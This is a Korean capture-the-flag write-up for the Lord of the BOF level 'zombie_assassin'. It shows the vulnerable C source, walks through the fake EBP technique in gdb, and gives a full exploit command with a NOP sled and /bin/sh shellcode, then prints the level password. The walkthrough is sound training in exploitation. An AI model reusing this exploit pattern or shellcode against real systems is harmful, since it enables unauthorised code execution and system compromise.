 ```yaml
---
layout: single
title: "LOB 16번 (assassin -> zombie_assassin)"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


source code:

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack retbayed you!\n");
                exit(0);
        }

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

        // strncpy instead of strcpy!
        strncpy(buffer, argv[1], 48);
        printf("%s\n", buffer);
}
```

Stack frame structure:

| buffer[40] |
| SFP |
| RET |
| argc |
| argv |
| environ |

문제에서 FEBP, fake EBP라는 힌트를 주었다. fake EBP는 golem -> darkknight 문제에서 한번 언급된 바 있다.
fake EBP는 ebp를 통해 eip를 조작하는 기법이다. 이를 알아보기 위해 실험을 해 보았다.

![disas](https://s01va.github.io/assets/images/2016-02-05-LOB-16/0.png)

disas main 명령어를 통해 leave를 하는 위치를 찾았다. leave ret을 하나씩 실행하고 경과를 지켜보기 위해 이 자리에 breakpoint를 걸고 차근차근 실행해 보았다.

![info_register](https://s01va.github.io/assets/images/2016-02-05-LOB-16/1.png)

A 40개는 buffer 40바이트, BBBB는 stack frame pointer, CCCC는 return 자리이다. 뒤의 D 200개는 padding과 쉘을 위치시킬 것을 고려해 입력해 보았다. 여기까지는 leave를 하기 전이다.

![memory](https://s01va.github.io/assets/images/2016-02-05-LOB-16/2.png)

![memory2](https://s01va.github.io/assets/images/2016-02-05-LOB-16/3.png)

buffer와 argv 자리에 위치하고 있는 입력값들의 위치를 찾아 두었다. 그리고 si 명령어로 leave를 해 보았다.

![info_register2](https://s01va.github.io/assets/images/2016-02-05-LOB-16/4.png)

ebp에 BBBB인 42424242가 위치해 있는 것을 볼 수 있다. 여기에서 leave 이후의 ret까지 실행시켜 보았다.

![info_register3](https://s01va.github.io/assets/images/2016-02-05-LOB-16/5.png)

eip가 BBBB 뒤의 값인 CCCC(43434343)으로 바뀐 것을 볼 수 있다. 원래 0x43434343 자리에는 다음에 실행할 명령어의 위치가 들어 있어야 할 것이다. 이제 CCCC(ret 위치) 대신 leave의 주소인 0x080484df를 입력하고, BBBB 자리에 적당한 주소로 bffffba0를 입력해 보았다.

![info_register4](https://s01va.github.io/assets/images/2016-02-05-LOB-16/6.png)

이전과 동일한 실행지점까지 실행시켜 보았다. eip가 080484df, ebp가 bffffba0으로 바뀌었다. 여기에서 한 줄 더 실행시켜 보았다.

![info_register5](https://s01va.github.io/assets/images/2016-02-05-LOB-16/7.png)

eip가 ret인 080484e0로 바뀌고 ebp는 이전에 bffffba0에 들어있는 값인 44444444로 바뀌었다. 여기에서 한줄 더 실행시켜 보았다.

![info_register6](https://s01va.github.io/assets/images/2016-02-05-LOB-16/8.png)

eip마저 44444444로 바뀌었다. 이는 ebp+4에 위치하고 있는 값이었을 것이다. 일련의 과정들을 통해 fake EBP를 다음과 같이 정리해 볼 수 있다.
본래의 SFP 자리에 어떤 주소지를 입력하고 ret 자리에 leave의 주소를 입력하면, SFP 자리에 입력된 주소지가 ebp가 되고, 거기서 4만큼 증가된 자리에 들어있는 주소지가 eip가 된다.
이를 바탕으로 페이로드를 다음과 같이 작성하였다.

```bash

./zombie_assassin `python –c ‘print “\xa0\xfb\xff\xbf”*10 + “\xd0\xf9\xff\xbf” + “\xdf\x84\x04\x08” + “\x90”*100 + “\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80” + “\x90”*75’`

```

1.	ret가 leave를 가리킴으로써 eip가 ret에 들어있는 주소값(\xdf\x84\x04\x08)으로 바뀐다.
2.	ebp가 SFP가 가리키는 주소(\xd0\xf9\xff\xbf)로 바뀐다.
3.	ebp가 SFP에 들어있는 주소가 가리키는 값(\xa0\xfb\xff\xbf)으로 바뀌고, +4가 된 주소에 들어있는 값이 eip에 담긴다.
4.	eip가 \x90” * 100 + shellcode를 실행

![exploit](https://s01va.github.io/assets/images/2016-02-05-LOB-16/9.png)


my-pass: no place to hide
